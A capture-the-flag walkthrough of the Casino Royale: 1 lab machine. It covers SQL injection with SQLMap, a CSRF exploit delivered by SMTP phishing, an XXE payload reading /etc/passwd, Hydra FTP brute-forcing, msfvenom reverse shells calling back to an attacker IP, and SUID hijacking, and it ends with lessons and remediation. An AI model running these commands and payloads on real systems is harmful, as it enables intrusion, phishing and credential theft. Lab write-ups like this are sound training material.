




# Casino Royale: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.102 |
| **Difficulty** | Hard |
| **OS** | Linux |
| **Goal** | root flag |
| **Source** | [HackingArticles](https://www.hackingarticles.in/casino-royale-1-vulnhub-walkthrough/) |

## Attack Summary

A PokerMax web application is vulnerable to SQL injection, yielding admin credentials. Player profile data reveals a Snowfox CMS running on a vhost, which has a CSRF vulnerability used to add an admin user. Social engineering via SMTP delivers the CSRF payload to an internal user. XXE injection on another endpoint exposes `/etc/passwd` and reveals an FTP user. After Hydra brute-forces the FTP password, a PHP reverse shell is uploaded. Lateral movement via database credentials reaches a user whose SUID binary can be hijacked to execute a root shell payload.

## Methodology

1. Host discovery and service enumeration (HTTP, SMTP, FTP)
2. SQLMap against PokerMax login to dump admin credentials
3. Exploit-DB CSRF (35301) to add admin user in Snowfox CMS
4. SMTP phishing to deliver CSRF payload to internal user `valenka`
5. XXE injection to read `/etc/passwd`
6. Hydra FTP brute-force; PHP shell upload via FTP
7. Initial shell via Metasploit; lateral movement via `config.php` credentials
8. SUID binary abuse for root shell

## Step 1: Host Discovery

```bash
netdiscover -r 192.168.1.0/24
# Target: 192.168.1.102

nmap -sV -p- 192.168.1.102
# Open: 21 (FTP), 25 (SMTP), 80 (HTTP)
```



## Step 2: Web Enumeration and PokerMax Admin

```bash
dirb http://192.168.1.102/
# Finds: /index.php, /pokeradmin/
```

The page references **PokerMax** software.

```bash
searchsploit poker
searchsploit -m 6766
cat 6766.txt
# Admin login path: /pokeradmin/
```

## Step 3: SQL Injection with SQLMap

```bash
# Enumerate databases
sqlmap -u http://192.168.1.102/pokeradmin/index.php \
  --forms --risk 3 --level 5 --dbs --batch

# Dump all tables from pokerleague database
sqlmap -u http://192.168.1.102/pokeradmin/index.php \
  --forms --risk 3 --level 5 -D pokerleague --dump-all --batch
```

Credentials recovered: **`admin:raise12million`**

Login to `/pokeradmin/` with these credentials.



## Step 4: Discover Snowfox CMS via Player Profiles

In the PokerMax admin panel, browse player profiles. A profile references:
- A directory path with user data
- The domain `casino-royale.local`

Add the domain to your hosts file:

```bash
echo "192.168.1.102  casino-royale.local" >> /etc/hosts
```

Browsing the site reveals the **Snowfox CMS**.

## Step 5: CSRF Exploit to Add Admin User

```bash
searchsploit snowfox
searchsploit -m 35301
cat 35301.txt
```

Edit the exploit into `raj.html` (replace attacker IP with `192.168.1.107`). Start Apache to serve it:

```bash
cp 35301.txt /var/www/html/raj.html
# Edit raj.html to set your attacker IP
service apache2 start
```

## Step 6: SMTP Phishing to Deliver CSRF Payload

Send a phishing email to `valenka` with a link to the CSRF page:

```bash
telnet casino-royale.local 25
EHLO attacker
MAIL FROM: admin@casino-royale.local
RCPT TO: valenka@casino-royale.local
DATA
Subject: Important Update

Please click here: http://192.168.1.107/raj.html
.
QUIT
```

Monitor the Apache access log to confirm the victim opens the link:

```bash
tail -n1 -f /var/log/apache2/access.log
```

## Step 7: Login as New Admin and Navigate to VIP Portal

Use the CSRF-created credentials (e.g., `user@user.local:password`) to log in to the Snowfox CMS. Browse the `vip-client-portfolios` section to find more user data and a new hidden path.

## Step 8: XXE Injection to Read /etc/passwd

The new directory's page processes XML. Create an XXE payload file `xml.txt`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root><user>&xxe;</user></root>
```

Send it:

```bash
curl -d @xml.txt http://casino-royale.local/ultra-access-view/main.php
```

The response returns the contents of `/etc/passwd`, revealing the user **ftpUserULTRA**.


## Step 9: FTP Brute-Force with Hydra

```bash
hydra -l ftpUserULTRA -P /usr/share/wordlists/rockyou.txt \
  ftp://192.168.1.102
```

Password found: **`bankbank`**

## Step 10: Upload PHP Reverse Shell via FTP

Generate the shell (`.php5` extension accepted by the server):

```bash
msfvenom -p php/meterpreter/reverse_tcp \
  LHOST=192.168.1.107 LPORT=443 -f raw > shell.php5
```

Upload via FTP:

```bash
ftp 192.168.1.102
# Login: ftpUserULTRA / bankbank
put shell.php5
chmod 777 shell.php5
bye
```

Start the Metasploit handler:

```bash
msfconsole -q
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.107
set LPORT 443
exploit
```

Browse to the uploaded shell URL to trigger execution. A Meterpreter session opens.



## Step 11: Stabilize Shell and Lateral Movement

```bash
python -c "import pty; pty.spawn('/bin/bash')"

# Find database credentials
cat /var/www/html/config.php
# valenka:11archives11!

su valenka
# Password: 11archives11!
```

## Step 12: Privilege Escalation via SUID Binary

```bash
find / -perm -4000 2>/dev/null
# /opt/casino-royale/mi6_detect_test
```

The binary attempts to execute `run.sh` from the current path. It is not found, so create a malicious one:

```bash
# Generate netcat reverse shell payload
msfvenom -p cmd/unix/reverse_netcat LHOST=192.168.1.107 LPORT=1234 \
  -f raw > /tmp/run.sh
chmod +x /tmp/run.sh

# Start listener
nc -lvp 1234

# In another terminal, serve and download the payload
python -m SimpleHTTPServer 8080
# From target shell:
wget http://192.168.1.107:8080/run.sh -O /tmp/run.sh

# Trigger the SUID binary from /tmp
cd /tmp
/opt/casino-royale/mi6_detect_test
```

A root shell arrives on the listener.

## Step 13: Root Flag

```bash
whoami
# root
cd /root
ls
cat flag.sh
```



## Lessons Learned

- SQL injection against legacy poker software exposed admin credentials in a single command; always use prepared statements.
- CSRF vulnerabilities in CMSes can be weaponized by combining them with social engineering (SMTP phishing), requiring no direct exploit of the victim's machine.
- XXE injection remains a serious vulnerability in XML-processing endpoints; it can exfiltrate any file readable by the web server process.
- SUID binaries that execute relative paths (e.g., `run.sh` without an absolute path) are trivially hijackable via `PATH` manipulation or placing a malicious script in the working directory.

## Remediation

| Vulnerability | Fix |
|---|---|
| PokerMax SQL injection | Use parameterized queries; upgrade or replace legacy software |
| Snowfox CMS CSRF (35301) | Implement CSRF tokens; upgrade CMS |
| SMTP relay accepts arbitrary senders | Configure SMTP to reject unauthorized senders; disable open relay |
| XXE in XML endpoint | Disable external entity processing in the XML parser |
| FTP user with weak password | Enforce strong passwords; consider replacing FTP with SFTP |
| SUID binary relative path execution | Use absolute paths in SUID binaries; audit all custom SUID files |
